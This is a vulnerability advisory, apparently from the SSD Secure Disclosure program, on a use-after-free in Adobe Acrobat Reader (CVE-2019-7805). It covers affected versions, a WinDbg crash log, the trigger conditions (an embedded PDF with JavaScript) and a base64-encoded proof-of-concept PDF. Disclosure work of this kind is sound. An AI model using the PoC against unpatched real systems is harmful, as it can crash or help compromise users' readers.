 **Vulnerability Summary**<br>
A use-after-free vulnerability exists in Adobe Acrobat Reader DC, which allows attackers execute arbitrary code with the privileges of the current user.

**CVE**<br>
CVE-2019-7805

**Credit**<br>
An independent Security Researcher has reported this vulnerability to SSD Secure Disclosure program.

**Affected systems**<br>

<table border="1" width="100%" cellspacing="0" cellpadding="1">
<tbody>
<tr>
<th><b>Product</b></th>
<th><b>Track</b></th>
<th><b>Affected Versions</b></th>
<th><b>Platform</b></th>
</tr>
<tr>
<td>Acrobat DC</td>
<td>Continuous</td>
<td>2019.010.20100 and earlier versions</td>
<td>Windows and macOS</td>
</tr>
<tr>
<td>Acrobat Reader DC</td>
<td>Continuous</td>
<td>2019.010.20099 and earlier versions</td>
<td>Windows and macOS</td>
</tr>
<tr>
<td> </td>
<td> </td>
<td> </td>
<td> </td>
</tr>
<tr>
<td>Acrobat 2017</td>
<td>Classic 2017</td>
<td>2017.011.30140 and earlier version</td>
<td>Windows and macOS</td>
</tr>
<tr>
<td>Acrobat Reader 2017</td>
<td>Classic 2017</td>
<td>2017.011.30138 and earlier version</td>
<td>Windows and macOS</td>
</tr>
<tr>
<td> </td>
<td> </td>
<td> </td>
<td> </td>
</tr>
<tr>
<td>Acrobat DC</td>
<td>Classic 2015</td>
<td>2015.006.30495 and earlier versions</td>
<td>Windows and macOS</td>
</tr>
<tr>
<td>Acrobat Reader DC</td>
<td>Classic 2015</td>
<td>2015.006.30493 and earlier versions</td>
<td>Windows and macOS</td>
</tr>
</tbody>
</table>

**Vendor Response**<br>
Adobe fixed this vulnerability and released a public security advisory in May 14, 2019. Adobe Advisory

**Vulnerability Details**<br>
How to reproduce:
1. Set Paged Heap on for the “AcrodRD32.exe”
2. Open the attached “poc.pdf”, and you will see the crash.

Using WinDbg, we will see the following crash analysis. The test was done on Windows 10. Don’t forget to set Paged Heap on for the “AcroRd32.exe”.

**Crash info**<br>
```
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files (x86)\Adobe\Acrobat Reader DC\Reader\AcroRd32.dll -
*** WARNING: Unable to verify checksum for C:\Program Files (x86)\Adobe\Acrobat Reader DC\Reader\plug_ins\Annots.api
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files (x86)\Adobe\Acrobat Reader DC\Reader\plug_ins\Annots.api -
eax=00000000 ebx=3541efd8 ecx=15b2adc0 edx=3540cfe8 esi=00000000 edi=1e178bd8
eip=68406302 esp=00efeba0 ebp=00efeba0 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
AcroRd32!CTJPEGWriter::CTJPEGWriter+0x8235f:
68406302 66398100010000  cmp     word ptr [ecx+100h],ax   ds:002b:15b2aec0=????
1:012> kv
 # ChildEBP RetAddr  Args to Child              
WARNING: Stack unwind information not available. Following frames may be wrong.
00 00efeba0 66aea056 15b2adc0 c3ad4164 1e178bd8 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x8235f
01 00efec08 66aea024 00000001 3542cfb8 3542cf90 Annots!PlugInMain+0x3780e
02 00efec28 66ae9c12 297aefe8 00efec78 68380dfe Annots!PlugInMain+0x377dc
03 00efec34 68380dfe 3540aff0 1df3c3db 2803cff8 Annots!PlugInMain+0x373ca
04 00efec78 683808ed 3542cfb8 1df3c34b 0000011c AcroRd32!DllCanUnloadNow+0x1f5d4
05 00efece8 6838069f 1df3c2b3 00000113 0b518fd8 AcroRd32!DllCanUnloadNow+0x1f0c3
06 00efed10 68321267 000004d3 00000000 00000113 AcroRd32!DllCanUnloadNow+0x1ee75
07 00efed2c 7761bf1b 001205da 00000113 000004d3 AcroRd32!AcroWinMainSandbox+0x77f1
08 00efed58 776183ea 68320d1c 001205da 00000113 USER32!_InternalCallWinProc+0x2b
09 00efee40 77617c9e 68320d1c 00000000 00000113 USER32!UserCallWinProcCheckWow+0x3aa (FPO: [SEH])
0a 00efeebc 77617a80 adba9dc5 00eff154 6837ffca USER32!DispatchMessageWorker+0x20e (FPO: [Non-Fpo])
0b 00efeec8 6837ffca 00efeef4 1df3def7 00000001 USER32!DispatchMessageW+0x10 (FPO: [Non-Fpo])
0c 00eff154 6837fd92 1df3de2f 00000001 0b3f6de0 AcroRd32!DllCanUnloadNow+0x1e7a0
0d 00eff18c 6831a359 1df3de5b 0b206fa0 00eff6cc AcroRd32!DllCanUnloadNow+0x1e568
0e 00eff1f8 68319c2d 682f0000 00390000 0b206fa0 AcroRd32!AcroWinMainSandbox+0x8e3
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for AcroRd32.exe -
0f 00eff614 00397319 682f0000 00390000 0b206fa0 AcroRd32!AcroWinMainSandbox+0x1b7
10 00eff9dc 0049889a 00390000 00000000 0486a0d4 AcroRd32_exe+0x7319
11 00effa28 76418484 00c1a000 76418460 1545a828 AcroRd32_exe!AcroRd32IsBrokerProcess+0x908ba
12 00effa3c 77ae302c 00c1a000 1ed50fae 00000000 KERNEL32!BaseThreadInitThunk+0x24 (FPO: [Non-Fpo])
13 00effa84 77ae2ffa ffffffff 77afec59 00000000 ntdll!__RtlUserThreadStart+0x2f (FPO: [SEH])
14 00effa94 00000000 00391367 00c1a000 00000000 ntdll!_RtlUserThreadStart+0x1b (FPO: [Non-Fpo])
1:012> !heap -p -a ecx
    address 15b2adc0 found in
    _DPH_HEAP_ROOT @ 4851000
    in free-ed allocation (  DPH_HEAP_BLOCK:         VirtAddr         VirtSize)
                                   15ae1e38:         15b2a000             2000
    6a2bae02 verifier!AVrfDebugPageHeapFree+0x000000c2
    77b62fa1 ntdll!RtlDebugFreeHeap+0x0000003e
    77ac2735 ntdll!RtlpFreeHeap+0x000000d5
    77ac2302 ntdll!RtlFreeHeap+0x00000222
    7789e13b ucrtbase!_free_base+0x0000001b
    7789e108 ucrtbase!free+0x00000018
    6833f927 AcroRd32!CTJPEGLibInit+0x00003a77
    683de9cd AcroRd32!CTJPEGWriter::CTJPEGWriter+0x0005aa2a
    683ca751 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x000467ae
    683ca1f7 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x00046254
    6845e886 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x000da8e3
    6845c847 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x000d88a4
    6845c7b5 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x000d8812
    6845c6d0 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x000d872d
    684a4526 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x00120583
    6845752c AcroRd32!CTJPEGWriter::CTJPEGWriter+0x000d3589
    684c1dc1 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x0013de1e
    684abd11 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x00127d6e
    684a705a AcroRd32!CTJPEGWriter::CTJPEGWriter+0x001230b7
    684a6a0d AcroRd32!CTJPEGWriter::CTJPEGWriter+0x00122a6a
    684a64b4 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x00122511
    684ab857 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x001278b4
    684aa2d7 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x00126334
    684a6ac7 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x00122b24
    684a64b4 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x00122511
    684ab857 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x001278b4
    684aa2d7 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x00126334
    684a6ac7 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x00122b24
    684a64b4 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x00122511
    684ab857 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x001278b4
    684aa2d7 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x00126334
    684a6ac7 AcroRd32!CTJPEGWriter::CTJPEGWriter+0x00122b24
```

ECX register is pointing to a freed memory. It is clear that this is a use-after-free condition.

If you will analyze the “poc.pdf”, several conditions must be met in order to reproduce this crash.

1. A pdf embedding another pdf, when opening the main pdf, the embedded pdf is opened.
2. The embedded pdf should contain JavaScript part. Any JavaScript is enough to trigger the crash.

It seems that as long as the above conditions meet, the PoC will succeed.

The attacker can run JavaScript code in the embedded pdf in order to exploit this use-after-free vulnerability.

**PoC**<br>
The poc.pdf file contains binary data, so we will encode it in base64.
```
JVBERi0xLjcNCjEgMCBvYmoNCjw8IC9UeXBlIC9DYXRhbG9nDQovUGFnZXMgMi
AwIFINCi9OYW1lcyA8PCAvRW1iZWRkZWRGaWxlcyA8PCAvTmFtZXMgWyA8Njc2ZjJlNzA2NDY2P
iA1IDAgUiBdDSA+Pg0gPj4NID4+DQplbmRvYmoNCg0KMiAwIG9iag0KPDwgL0tpZHMgWyAzIDAg
UiBdDQovVHlwZSAvUGFnZXMNCi9Db3VudCAxDSA+Pg0KZW5kb2JqDQoNCjMgMCBvYmoNCjw8IC9
QYXJlbnQgMiAwIFINCi9Db250ZW50cyA2IDAgUg0KL1Jlc291cmNlcyA8PCA+Pg0KL0FBIDw8IC
9PIDcgMCBSDSA+Pg0KL01lZGlhQm94IFsgMCAwIDYwMCA4MDAgXQ0KL1R5cGUgL1BhZ2UNID4+D
QplbmRvYmoNCg0KNCAwIG9iag0KPDwgL0xlbmd0aCAzNTANCi9UeXBlIC9FbWJlZGRlZEZpbGUN
Ci9GaWx0ZXIgL0ZsYXRlRGVjb2RlDQovUGFyYW1zIDw8IC9TaXplIDYxOQ0KL0NoZWNrc3VtIDw
5OGE2ZWJhZjcxOTZhNTMzNzQxMmE0NzU1OTE4NjgxMz4NID4+DQovU3VidHlwZSAvYXBwbGljYX
Rpb24jMkZwZGYNID4+DQpzdHJlYW0NCnicbZI7TsNAEIYRBYWlbTjBNKl4+G0SKYoECRFKQInsU
KEUiz0JRsYbrRcUOAunQFRUnIMTUHEAGhjbCo5ibNnS/Dvzzfy72xj3+gfm4RHTGu8/X99vH0wz
wQBxfcu0dhv0yeMCQe9yxRMxZ5o+5nPMwKIUn6LRAtPjUMUiBaeQoNNhGqZRUc80ax01jKMMrsD
OE2FK1SW7IFLUFfepAnMTYa8jxlwiJa3aVwAKfMzEvQxpOsrMGfoFRjE/EUtqatDrGQY06Ztutn
DqhktTxAhAH/AHHoQyXiiKBwG4/zl11xnnmM7VDZhNKujHiUIJej/hCnsYigjL2kxJ5HdMWz7vD
ff9s9fLweRlZ2sXtj8L7mq5arGUOGMa+aDf3wOe69ouzCrNbEG5klZay6lppmfWNMszapptNStN
SR4nKEuXQfyE+TC6LwQdXLUrmeJSldM6Vn6zGqej/i+EoJlTDQplbmRzdHJlYW0NCmVuZG9iag0
KDQo1IDAgb2JqDQo8PCAvRiAoZ28ucGRmKQ0KL1R5cGUgL0ZpbGVzcGVjDQovRUYgPDwgL0YgNC
AwIFINID4+DSA+Pg0KZW5kb2JqDQoNCjYgMCBvYmoNCjw8IC9MZW5ndGggMA0gPj4NCnN0cmVhb
Q0KDQplbmRzdHJlYW0NCmVuZG9iag0KDQo3IDAgb2JqDQo8PCAvTmV3V2luZG93IGZhbHNlDQov
VCA8PCAvTiA8Njc2ZjJlNzA2NDY2Pg0KL1IgL0MNID4+DQovUyAvR29Ub0UNID4+DQplbmRvYmo
NCg0KeHJlZg0KMCA4DQowMDAwMDAwMDAwIDY1NTM1IGYNCjAwMDAwMDAwMTAgMDAwMDAgbg0KMD
AwMDAwMDEzNSAwMDAwMCBuDQowMDAwMDAwMjAyIDAwMDAwIG4NCjAwMDAwMDAzMzkgMDAwMDAgb
g0KMDAwMDAwMDg5MyAwMDAwMCBuDQowMDAwMDAwOTcwIDAwMDAwIG4NCjAwMDAwMDEwMjggMDAw
MDAgbg0KdHJhaWxlcg0KPDwgL1NpemUgOA0KL1Jvb3QgMSAwIFINID4+DQpzdGFydHhyZWYNCjE
xMTkNCiUlRU9GDQo=
```
